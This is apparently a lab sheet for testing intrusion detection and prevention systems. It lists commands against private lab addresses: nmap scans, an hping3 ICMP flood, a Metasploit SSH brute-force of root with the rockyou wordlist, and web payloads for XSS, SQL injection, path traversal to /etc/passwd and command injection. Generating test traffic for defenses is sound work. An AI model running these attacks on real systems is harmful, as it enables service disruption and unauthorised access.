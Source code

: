# Lab - Tests IDS et IPS
## 1. Network-Based Attacks

### NMAP TCP SYN Scan :
```bash
nmap -sS 192.168.100.10
```

### NMAP UDP SCAN :
```bash
nmap -sU 192.168.100.10
```

### ICMP Flood :
```bash
sudo hping3 -1 --flood 192.168.100.10
```

### Tunnel ICMP :
```bash
ping -s 2000 192.168.100.10   
```

### SSH bruteforce :
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.100.12
set USERNAME root
set PASSWORD /usr/share/wordlists/rockyou.txt
run
```

## 2. Web-based



### XSS (Cross-Site Scripting)
```bash
<script>alert("test")</script>

```

### SQL Injection
```bash
1' OR 1=1#&Submit=Submit

```

### Directory Traversal
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### File Inclusion
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### Command Injection
```bash
; ls
```
